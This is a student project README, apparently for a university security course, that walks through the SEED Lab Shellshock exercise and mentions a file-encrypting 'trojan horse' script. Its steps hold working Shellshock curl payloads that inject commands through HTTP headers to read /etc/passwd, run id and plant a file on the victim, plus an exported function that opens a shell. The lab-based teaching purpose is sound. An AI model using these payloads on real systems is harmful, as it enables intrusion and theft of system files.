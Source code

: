 
## Work Description

- Shellshock Attack with Reverse Shell <br/>
- Local Client and Server using Socket Programming to demonstrate Trojan Horse Attack <br/>
- Mini Implementation of Trojan Horse to encrpt user all files and to decrypt it with key<br/>

## Prerequisite

- SEED Lab <br/>
- Pyhton3 Install in Virtual machine<br/>
- Cryptography module for encryption module <br/>
- Fernet module of python for encryption & decryption <br/> 


## Steps to Run the ShellShock Attack:

1. ---DNS Setting---<br/>
Check for DNS settings for shellshock Attack using command ```less /etc/hosts```.<br/>
2. ---Container Setup---<br/>
Go in Lab setup and open terminal See if any container is running -> ```docker container list```.<br/>
See if any image is there -> ```docker image list```.<br/>
If you find difficulty For help type command ```docker run --help``` For conatiner help -> ```docker container --help```.<br/>
3. ---Build the container image---<br/>
Build and Run the Docker Compose using ```docker-compose build``` command in the folder after downloading labsetup files.<br/>
4.---Verify---<br/>
Run ```docker-compose up``` to set a trap at apache seed lab it will wait for victim. Check if victim is running ```dockps``` and run docker exec -> ```docksh```.<br/>
5. ---Web Server and CGI---<br/>
Check wheather the getenv and vul.cgi is present using ```ls /usr/lib/cgi-bin/``` <br/>
To check shell shock attack is possible or not I have created two C files ```listcommand.c``` and ```getpid.c``` to check wheather we can get victims shell access.<br/>
6. Run ```sudo cp bash_shellshock /bin/``` to run vulnerable shellshock shell.<br/>
Change permissions using ```sudo chown root vul``` and ```sudo chmod 4755 vul```.<br/>
7. Export a vulnerable function for instance ```export foo='() { echo "normal"; }; /bin/sh'``` and run it using ```./vul```.<br/>
8. ---Passing Data---<br/>
Once we have shell access of user we can use diffrent commands such as ```curl -v www.seedlab-shellshock.com/cgi-bin/getenv.cgi``` to run files which we have created in labsetup folder in webserver using victims shell.<br/>
We can run several command like ```curl -H, e, and A``` to get diffrent infoirmation about users like passwords files or environment variables of victims.<br/> 
To get password file run  ```curl -A"() { echo hello; }; echo Content_type: text/plain; echo; /bin/cat /etc/passwd" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi```.<br/> 
You can verify in victims terminal by running ```cat /etc/passwd```<br/>
To get user process id and pid and gpid run ```curl -e "() { echo hello; }; echo Content_type: text/plain; echo; /bin/id" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi```<br/>
9. We can create a virus folder in victim using ```curl -H "ATTACK: () { echo hello; }; echo Content_type: text/plain; echo; /bin/touch /tmp/virus" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi``` using this folder we will inject our malicious python scripty to encrypt and decrypt users important files. <br/> 
10. To check for folder in victims  run ```ls/tmp``` <br/>
11. Finally we can implement our trojan horse attack using the pyhton script uploaded in my github branch.<br/> 
    Close lab container  by ```docker-compose down``` <br/>

- Note:  If you have any concern reach me out and if you want contribute kindly open a pull request.


## Reference

- For the implementation of shellshock, seedlab setup is used (https://seedsecuritylabs.org/Labs_20.04/Web/Shellshock/).<br/>
- I have made changes in the docker-compose of the project and also creted several C files to get key information about users like PID GPID or to display users files and folders.<br/>
- The implmentation of trojan horse to encrpy and decrpt files in local Client and server using socket programming is created by me<br/>

## Author

- Fahad Patel - Univerisity of Windsor (110085698)

